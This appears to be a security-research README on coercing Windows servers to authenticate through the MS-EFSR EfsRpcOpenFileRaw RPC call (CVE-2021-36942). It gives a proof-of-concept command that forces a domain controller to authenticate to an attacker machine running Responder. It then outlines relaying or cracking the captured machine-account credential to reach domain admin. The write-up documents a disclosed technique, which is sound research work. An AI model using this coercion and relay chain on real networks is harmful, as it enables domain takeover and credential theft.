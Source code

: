 # MS-EFSR - Remote call to EfsRpcOpenFileRaw (opnum 0)

## Summary

+ **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

+ **Function name**: [`EfsRpcOpenFileRaw`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ccc4fb75-1c86-41d7-bbc4-b278ec13bfb8)

+ **Function operation number**: `0`

+ **RPC Interfaces**:
  + Interface 1:
    + uuid=`c681d488-d850-11d0-8c52-00c04fd90f7e`
    + version=`1.0`
    + Accessible through:
      + SMB named pipe: `\PIPE\lsarpc`
      + SMB named pipe: `\PIPE\lsass`
      + SMB named pipe: `\PIPE\netlogon`
      + SMB named pipe: `\PIPE\samr`
  + Interface 2:
    + uuid=`df1941c5-fe89-4e79-bf10-463657acf44d`
    + version=`1.0`
    + Accessible through:
      + SMB named pipe: `\PIPE\efsrpc`

## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\lsarpc` and bind to the desired [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol (with uuid `c681d488-d850-11d0-8c52-00c04fd90f7e` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\lsarpc`. This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. It will then call the remote [`EfsRpcOpenFileRaw`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ccc4fb75-1c86-41d7-bbc4-b278ec13bfb8) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcOpenFileRaw("\\\\192.168.2.51\\share\\file.txt\x00", 1)
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\NETLOGON` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
long EfsRpcOpenFileRaw(
    [in] handle_t binding_h,
    [out] PEXIMPORT_CONTEXT_HANDLE* hContext,
    [in, string] wchar_t* FileName,
    [in] long Flags
);
```

+ **binding_h**: An explicit binding handle created by the client. This is an RPC binding handle parameter, as specified in [C706] and [MS-RPCE] section 2.


+ **hContext**: An implementation-specific context handle that is used in subsequent calls by the client to the EfsRpcReadFileRaw method, EfsRpcWriteFileRaw method, or EfsRpcCloseRaw method.


+ **FileName**: An EFSRPC identifier, as specified in section 2.2.1.


+ **Flags**: This MUST be set to some combination of the following values. All servers and clients MUST support the CREATE_FOR_IMPORT flag. Servers that implement a hierarchical encrypted store, such as the NTFS file system, SHOULD also support the CREATE_FOR_DIR flag. Servers SHOULD support the OVERWRITE_HIDDEN flag, and MAY interpret it in implementation-specific ways. A client MUST ensure that all the flags it does not support are set to zero. A server MUST ignore all flags it does not support. Flag values are specified in the following table.
 
| Name | Value | Description |
|---|---|---|
| `CREATE_FOR_IMPORT` | `0x00000001` | Open the object for writing (that is, restore). If this flag is not set, open the object for reading (that is, backup). |
| `CREATE_FOR_DIR` | `0x00000002` | This flag is only intended for use in conjunction with the CREATE_FOR_IMPORT flag. It indicates that the object being restored is a container for other objects.<42> |
| `OVERWRITE_HIDDEN` | `0x00000004` | This flag is only intended for use in conjunction with the CREATE_FOR_IMPORT flag. This flag indicates a request from the client for the server to overwrite an existing object even if the existing object is "hidden". The meaning of "hidden" is specific to the implementation of the data store, and this meaning does not affect protocol behavior. |
| `EFS_DROP_ALTERNATE_STREAMS` | `0x00000010` | This flag indicates that content from any alternate data streams, if present and implemented by the storage system, will be ignored. |


## References

+ Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31


+ Documentation of function `EfsRpcOpenFileRaw`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ccc4fb75-1c86-41d7-bbc4-b278ec13bfb8


+ CVE-2021-36942 Windows LSA Spoofing Vulnerability: https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942


+ This call was pointed out by [@topotam77](https://twitter.com/topotam77/) on Jul 18, 2021: https://twitter.com/topotam77/status/1416833996923809793
